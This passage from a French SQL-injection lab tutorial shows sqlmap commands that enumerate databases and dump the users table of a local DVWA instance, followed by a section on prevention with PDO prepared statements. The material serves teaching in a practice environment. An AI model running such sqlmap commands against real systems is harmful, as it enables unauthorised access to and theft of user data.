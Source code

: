 ### 3.3 Utilisation de sqlmap pour automatiser l'attaque

1. **Installation de sqlmap** :
   
   Installez **sqlmap**, un outil qui automatise les attaques par injection **SQL**.
   
   ```bash
   sudo apt install sqlmap
   ```

2. **Exploitation automatique avec sqlmap** :
   
   - Identifiez l'URL vulnérable dans **DVWA** (par exemple, après avoir soumis une requête dans le champ de recherche).
   - Utilisez **sqlmap** pour détecter et exploiter la vulnérabilité :
   
     ```bash
     sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<votre_session_id>" --dbs
     ```
   Cette commande permet d'énumérer toutes les bases de données.

3. **Extraction des données sensibles** :
   
   Utilisez **sqlmap** pour extraire les informations sensibles d'une table spécifique :
   
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<votre_session_id>" -D dvwa --tables
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<votre_session_id>" -D dvwa -T users --dump
   ```
   Cette commande permet d'extraire toutes les données de la table des utilisateurs.

---

## Partie 4 : Prévention des attaques SQLi

### 4.1 Utilisation de requêtes préparées

1. **Requêtes préparées avec PDO (PHP Data Objects)** :
   
   Pour éviter les injections **SQL**, utilisez des **requêtes préparées** qui séparent la logique **SQL** des données fournies par l'utilisateur.

   Exemple en **PHP** avec PDO :
   
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
   $stmt->bindParam(':id', $id);
   $stmt->execute();
   ```
   Les **requêtes préparées** empêchent l'exécution directe des entrées utilisateur comme commandes **SQL**.

2. **Échappement des entrées utilisateur** :
   
   Si vous ne pouvez pas utiliser de **requêtes préparées**, assurez-vous d'échapper toutes les entrées utilisateur pour éviter toute interprétation malveillante.
